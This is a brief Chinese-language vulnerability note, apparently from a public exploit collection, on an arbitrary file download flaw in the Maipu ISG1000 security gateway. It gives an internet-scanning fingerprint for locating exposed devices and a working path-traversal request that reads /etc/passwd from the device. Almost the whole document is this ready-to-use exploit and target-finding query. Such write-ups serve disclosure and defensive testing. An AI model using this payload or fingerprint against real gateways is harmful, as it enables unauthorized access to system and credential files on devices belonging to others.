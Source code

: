 # 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
迈普 ISG1000安全网关
```

## 网络测绘

```
title="迈普通信技术股份有限公司"
```

## 漏洞复现

登录页面如下

![](./images/202202110950648.png)

请求的 POC 为

```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![](./images/202202110950317.png)
